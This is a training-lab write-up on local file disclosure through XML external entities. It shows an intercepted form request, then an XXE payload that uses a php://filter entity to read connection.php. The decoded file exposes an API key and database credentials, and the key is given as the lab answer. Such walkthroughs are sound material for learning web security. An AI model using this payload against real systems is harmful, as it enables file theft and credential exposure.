

# Section 14: Local File Disclosure

Module: 23. Web Attacks

---

## Questions & Answers

### 1. Try to read the content of the 'connection.php' file, and submit the value of the 'api_key' as the answer.

Context:
- Intecept the request got:
```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.234.170
Content-Length: 145
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.234.170
Referer: http://10.129.234.170/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<root>
<name>first</name>
<tel></tel>
<email>email@email.com</email>
<message>test query</message>
</root>
```
- Use PHP filter:
```bash
POST /submitDetails.php HTTP/1.1
Host: 10.129.234.170
Content-Length: 239
Accept-Language: en-US,en;q=0.9
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/143.0.0.0 Safari/537.36
Content-Type: text/plain;charset=UTF-8
Accept: */*
Origin: http://10.129.234.170
Referer: http://10.129.234.170/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE email [
  <!ENTITY code SYSTEM "php://filter/convert.base64-encode/resource=connection.php">
]>
<root>
  <email>&code;</email>
  <tel></tel>
  <message>test query</message>
</root>
```

- Decode the code:
```php
<?php

$api_key = "UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg";

try {
	$conn = pg_connect("host=localhost port=5432 dbname=users user=postgres password=iUer^vd(e1Pl9");
}

catch ( exception $e ) {
 	echo $e->getMessage();
}

?>
```

**Answer:** `UTM1NjM0MmRzJ2dmcTIzND0wMXJnZXdmc2RmCg`

---

[Back to Module Index](./README.md)
